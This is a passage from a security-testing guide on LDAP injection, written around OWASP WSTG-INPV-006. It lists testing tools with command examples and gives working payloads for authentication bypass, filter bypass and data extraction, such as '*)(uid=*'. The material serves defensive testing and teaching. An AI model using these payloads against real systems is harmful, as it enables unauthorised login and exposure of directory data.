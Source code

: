       # HTTPie
      http "http://example.com/login?user==admin)(uid=*"
      ```

- **ldapsearch**: Command-line tool to test LDAP queries directly.
  - Install on Linux:
    ```bash
    sudo apt install ldap-utils
    ```
  - Install on Windows/Mac: Download from [OpenLDAP](https://www.openldap.org/).
  - Example:
    ```bash
    ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(uid=admin)(uid=*)"
    ```

- **Postman**: GUI tool for testing LDAP injection in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to LDAP payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for error messages.
  - **Note**: Firefox’s 2025 LDAP query inspection enhancements improve debugging.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-006, testing LDAP Injection vulnerabilities across input vectors, authentication injection, data extraction, blind LDAP injection, filter bypass, group membership enumeration, and LDAP modification injection.

### Common LDAP Injection Payloads

Below is a list of common LDAP Injection payloads to test various LDAP query vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution in controlled environments to avoid unintended data exposure.

- **Basic Injection Payloads**:
  - `*)(uid=*` (Bypasses authentication by matching all users)
  - `admin)(uid=*` (Appends wildcard filter)
  - `*` (Matches all entries)
  - `)(objectClass=*` (Bypasses filters)

- **Authentication Bypass Payloads**:
  - `admin)(&(uid=*))` (Bypasses login)
  - `*)(|(uid=admin))` (OR condition bypass)
  - `admin*` (Wildcard username match)

- **Data Extraction Payloads**:
  - `*)(cn=*` (Extracts common names)
  - `*)(mail=*` (Extracts email addresses)
  - `*)(objectClass=user` (Extracts user objects)
